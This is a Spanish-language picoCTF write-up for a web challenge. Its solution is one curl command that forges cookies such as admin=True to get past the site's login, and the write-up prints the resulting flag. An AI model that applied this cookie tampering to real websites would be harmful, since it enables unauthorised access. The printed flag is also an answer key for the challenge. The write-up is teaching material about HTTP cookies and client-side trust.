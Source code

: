 ## Objetivo:
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

**Hints:**
1. Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución:

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=admin; password=1234; admin=True"  | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>:    <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
                                                                                
┌──(kali㉿kali)-[~]
└─$
```

### Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}

## Notas adicionales:
| Comando | Descripción |
| --- | --- |
| curl | Curl es una herramienta de línea de comandos de Linux que sirve para transferir datos hacia o desde un servidor con URL, utilizando cualquiera de los protocolos soportados (HTTP, FTP, POP3, IMAP, SMTP, SCP, SFTP, TFTP, TELNET, LDAP…). |

### ¿Qué son las cookies?

Las cookies, de nombre más exacto **HTTP cookies**, es una tecnología que en su día inventó el navegador Netscape (descanse en paz), actualmente definida en el estándar RFC 6265, y que consiste básicamente en información enviada o recibida en las cabeceras HTTP y que **queda almacenada localmente client-side** durante un tiempo determinado. En otras palabras, es información que queda almacenada en el dispositivo del usuario y que se envía hacia y desde el servidor web en las cabeceras HTTP.

## Referencias:
- [http](https://developer.mozilla.org/en-US/docs/Web/HTTP)
- [http headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [request headers](https://developer.mozilla.org/en-US/docs/Glossary/Request_header) 
- [request methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)
- [cookies](https://en.wikipedia.org/wiki/HTTP_cookie)